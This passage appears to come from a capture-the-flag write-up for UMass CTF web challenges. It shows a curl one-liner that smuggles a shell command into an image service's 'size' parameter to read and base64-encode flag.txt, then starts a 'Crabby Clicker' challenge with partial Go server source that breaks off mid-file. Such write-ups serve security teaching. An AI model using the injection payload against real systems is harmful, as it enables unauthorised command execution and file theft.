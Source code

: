 ```bash
curl -s 'http://spongebob-blog.ctf.umasscybersec.org/assets/image?name=spongebob&size=200%20-set%20Flag%20%22$(cat%20flag.txt%20|%20base64)%22' | exiftool - | grep Flag | cut -d ':' -f 2 | tr -d '!' | xargs | base64 -d 
```


flag: **UMASS{B4S1C_CMD_INJ3CTI0N}**

---
# web/Crabby Clicker
> I've created a new game called Crabby Clicker! It's a fun game where you click on a crab to get points. Once you get enough points, you can buy the flag!

We are given a `#go` server which apparently has bugs in it. We needed to click 100 times by sending requests to the `/click` endpoint. The bug was the state is not saved accross requests. I think doing in HTTP resets the connection so I tried doing in TCP in pwn and it worked. 

main.go
```go
package main

import (
	"bufio"
	"fmt"
	"net"
	"os"
	"strings"
	"time"
)

type RequestHandler struct {
	burgers int
	conn    net.Conn
}

var GLOBAL_STATE RequestHandler

func main() {
	// Listen on TCP port 8080 on all interfaces.
	ln, err := net.Listen("tcp", ":1337")
	if err != nil {
		fmt.Println("Error listening:", err.Error())
		return
	}
	defer ln.Close()
	fmt.Println("Listening on :1337")

	GLOBAL_STATE = RequestHandler{burgers: 0, conn: nil}

	for {
		// Accept a connection.
		conn, err := ln.Accept()
		if err != nil {
			fmt.Println("Error accepting: ", err.Error())
			return
		}

		// burger to the GLOBAL_STATE from the request handler so we can track between requests
		handler := RequestHandler{burgers: GLOBAL_STATE.burgers, conn: conn}
		go handler.handleRequest()
	}
}

func (r *RequestHandler) handleRequest() {
```